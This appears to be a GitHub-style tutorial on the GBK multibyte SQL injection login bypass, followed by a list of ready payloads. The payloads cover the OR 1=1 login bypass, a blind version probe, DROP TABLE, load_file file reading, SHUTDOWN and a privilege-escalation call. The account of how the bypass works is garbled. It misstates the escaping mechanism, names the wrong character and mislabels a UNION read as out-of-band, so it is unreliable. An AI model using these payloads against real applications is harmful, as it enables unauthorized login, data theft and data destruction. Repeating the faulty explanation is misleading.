 # SQLi GBK Authentication Vunlerability

### SQL injection (SQLi) is a web application vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It allows the attacker to manipulate SQL queries by injecting malicious code.
One common scenario is when the application builds SQL queries dynamically with user input, allowing the attacker to modify the meaning of the original query.

#### GBK (Guojia Biaozhun) is a Chinese character encoding that allows encoding of both Chinese characters as well as ASCII characters.
The GBK authentication bypass technique exploits the way GBK encoding allows both ASCII and Chinese characters to be present in the same string.

#### Here's how it works:

    The application has a login form that takes a username and password. The input is escaped to prevent SQLi.
    However, the escaping is not done correctly for GBK strings. The ASCII characters are escaped, while the Chinese chars are left unescaped.
    The attacker submits a username like "admin%df' OR 1=1#"
    The %df' is the GBK encoding for the Chinese character 達. This bypass the escaping and allows the ' OR 1=1# SQLi payload to be injected.
    The original query was supposed to be: 

    SELECT * FROM users WHERE username='admin%df' AND password='xxx'

### But with the GBK bypass it becomes:

    SELECT * FROM users WHERE username='admin%df' OR 1=1#' AND password='xxx'

##### This changes the meaning of the query to match all users, allowing the attacker to login without knowing the password.

#### Here are some additional examples of exploiting the GBK authentication bypass:

    Blind SQL injection by triggering conditional responses:
    
    Original query:
    SELECT * FROM users WHERE username='$username'
    
    Payload: %df' AND substring(version(),1,1)='5#

##### This will check if the first character of the database version is '5', triggering different responses based on true or false.


### Abusing batched SQL statements:

    Original query:
    SELECT * FROM users WHERE username='$username'; SELECT * FROM products;

    Payload: %af'; DROP TABLE users;#

##### This will delete the entire users table while still retrieving the products.

### Exfiltrating data through out-of-band channels:

    Payload: %df' UNION SELECT 1,2,load_file('c:/server_logs.txt')#

##### This will select data from the file system and return it in the application's response.

### Command injection on MySQL:

    Original query:
    SELECT * FROM users WHERE username='$username'

    Payload: %df'; SHUTDOWN;#

##### This will execute the SHUTDOWN command and crash the MySQL server.

### Privilege escalation through stored procedures:

    Original query:
    SELECT * FROM users WHERE username='$username'

    Payload: %af'; CALL increase_privileges();#

#### So in summary, the GBK authentication bypass abuses the inconsistent escaping of GBK strings to inject malicious SQL and bypass login authentication. Proper escaping of all characters, both ASCII and Unicode, is needed to prevent this attack.
